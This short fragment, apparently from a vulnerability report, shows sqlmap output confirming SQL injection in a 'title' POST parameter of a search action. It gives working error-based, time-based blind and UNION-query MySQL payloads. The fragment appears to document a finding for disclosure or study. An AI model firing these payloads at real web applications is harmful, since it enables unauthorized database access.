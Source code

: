 ![SQLMap request](assets/image-20230504194119586.png)

```bash
---
Parameter: title (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=example' AND (SELECT 9391 FROM(SELECT COUNT(*),CONCAT(0x716a7a7071,(SELECT (ELT(9391=9391,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Yvps'='Yvps&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=example' AND (SELECT 6244 FROM (SELECT(SLEEP(5)))dWNC) AND 'Hfwn'='Hfwn&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=example' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a7a7071,0x7463445853774f49666461525a4b446d4a624a706a414976706b56495977444675766767546d6347,0x7162717871),NULL-- -&action=search
---
```
